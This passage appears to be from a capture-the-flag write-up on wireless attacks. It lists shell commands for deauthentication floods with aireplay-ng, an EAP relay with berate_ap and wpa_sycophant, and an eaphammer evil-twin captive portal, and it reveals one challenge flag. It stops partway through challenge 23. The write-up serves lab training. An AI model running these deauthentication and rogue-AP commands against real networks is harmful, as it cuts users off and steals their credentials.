 ```shell
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```

```shell
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan2 lo wifi-regional-tablets
```

In parallel:

```shell
airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 wlan1mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
```

In third shell:

```shell
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```

![](Images/Recon22_01.png)

**Flag :**  `flag{NBLvyxgwckKnyGup6HNj}`

## **23. What is the password of the user vulnerable to RogueAP of wifi-global?**

**Challenge Description :**  What is the password of the user vulnerable to RogueAP of wifi-global?

### Approach

When AP is unattackable, attack clients.

```shell
cd ~/tools/eaphammer
sudo killall dnsmasq
sudo ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid WiFi-Restaurant --interface wlan4 --captive-portal
```

In parallel:

```shell
sudo iwconfig wlan0mon channel 44
sudo aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
```

